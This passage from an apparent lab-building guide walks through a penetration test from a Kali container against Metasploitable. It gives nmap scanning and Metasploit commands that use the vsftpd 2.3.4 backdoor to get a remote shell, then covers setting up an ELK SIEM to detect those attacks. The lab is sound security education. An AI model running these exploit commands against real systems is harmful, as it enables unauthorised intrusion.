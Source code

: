    ```

---

## Phase 3: Offensive Security Practice (Ethical Hacking) ⚔️

### Objective
Simulate a penetration test from your Kali container against the Metasploitable target.

### Key Activities
1.  **Reconnaissance (Nmap):**
    From your `kali` container's terminal, scan the target to find open ports and services. Replace `` with the IP you found earlier.
    ```bash
    nmap -sV -A 
    ```
2.  **Vulnerability Analysis:**
    Review the Nmap output to find a weak service (e.g., vsftpd 2.3.4, which has a known backdoor).

3.  **Exploitation (Metasploit):**
    Launch the Metasploit Framework, search for the appropriate exploit, and gain a remote shell on the target.
    ```bash
    # Launch Metasploit
    msfconsole

    # Inside msfconsole
    search vsftpd
    use exploit/unix/ftp/vsftpd_234_backdoor
    set RHOSTS 
    exploit
    ```
4.  **Post-Exploitation (Ghidra):**
    After gaining access, you might find suspicious files. If you find a compiled binary, you can practice analyzing it with Ghidra to understand its purpose—a common task in CTFs.

---

## Phase 4: Defensive Security & SIEM Implementation 🛡️

### Objective
Build a SIEM with the ELK Stack to monitor your lab, detect your attacks, and learn defensive security.

### Key Activities
1.  **Deploy the ELK Stack:**
    The easiest way to launch Elasticsearch, Logstash, and Kibana is with Docker Compose. Create a `docker-compose.yml` file from a trusted source (like the official Elastic documentation) and run `docker-compose up`.
2.  **Configure Log Forwarding:**
    Deploy a log shipper like **Filebeat** as another container. Configure it to read logs from the Metasploitable container and send them to your ELK stack.
3.  **Detect & Analyze Attacks:**
    With the SIEM running, launch another `nmap` scan or `metasploit` attack. Open the **Kibana** dashboard in your web browser and watch the attack logs appear in real-time. Practice creating dashboards and alerts to visualize the malicious activity.

---